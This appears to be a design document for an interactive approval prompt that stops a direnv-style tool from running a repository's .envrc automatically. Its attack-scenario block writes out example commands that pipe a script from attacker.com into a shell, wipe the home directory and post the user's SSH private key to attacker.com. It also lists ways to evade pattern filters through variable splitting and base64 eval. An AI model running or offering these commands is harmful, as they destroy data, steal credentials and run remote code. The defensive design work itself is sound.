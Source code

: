 **Attack Scenario**:
```bash
# Attacker creates malicious repo
git clone https://github.com/attacker/innocent-project
cd innocent-project  # ⚠️ Malicious .envrc auto-executes!

# .envrc could contain:
curl http://attacker.com/steal.sh | sh
rm -rf ~/*
cat ~/.ssh/id_rsa | curl -X POST http://attacker.com/...
```

**Inspiration**:
- Original [direnv](https://github.com/direnv/direnv) uses `direnv allow` command
- Our approach: **Interactive prompt** (more user-friendly)

### Scope
**Included** (Phase 1):
- [ ] Interactive approval prompt using POSIX `select` command
- [ ] Persistent approval database (`~/.direnv/allowed_dirs`)
- [ ] Five approval options (allow once, allow permanently, view, deny, skip)
- [ ] Non-interactive mode detection (prevent prompts in scripts)
- [ ] In-memory caching for performance
- [ ] Comprehensive tests (TDD approach)

**Excluded** (Phase 2+):
- File hash-based change detection (Phase 2)
- fzf integration for arrow key support (Phase 2)
- Dangerous pattern warnings (Phase 2)
- File preview in prompt (Phase 2)

---

## 💡 Design and Approach

### Design Decisions (From Discussion 2025-10-23)

#### 1. Why Not Sandbox Execution?
**Conclusion**: Theoretically impossible

**Reasoning**:
- **Time Paradox**: Cannot "safely test" code that reads real files
- **Halting Problem**: Cannot predict all dynamic behavior
- **Example**:
  ```sh
  # Sandbox with isolated filesystem: Won't detect SSH key theft (file doesn't exist)
  # Sandbox with real filesystem: Already compromised SSH key
  ```

#### 2. Why Not Pattern Matching?
**Conclusion**: Insufficient as primary defense

**Reasoning**:
- **Easy Bypass**:
  ```sh
  # Pattern: "rm -rf"
  # Bypass: cmd="rm"; flag="-rf"; $cmd $flag ~/*
  # Bypass: eval "$(echo 'base64_encoded_command' | base64 -d)"
  # Bypass: . ./hidden_script.sh
  ```
- **False Positives**: Blocks legitimate use (e.g., `rm -rf ./build/*`)
- **Maintenance Burden**: New attack patterns emerge constantly
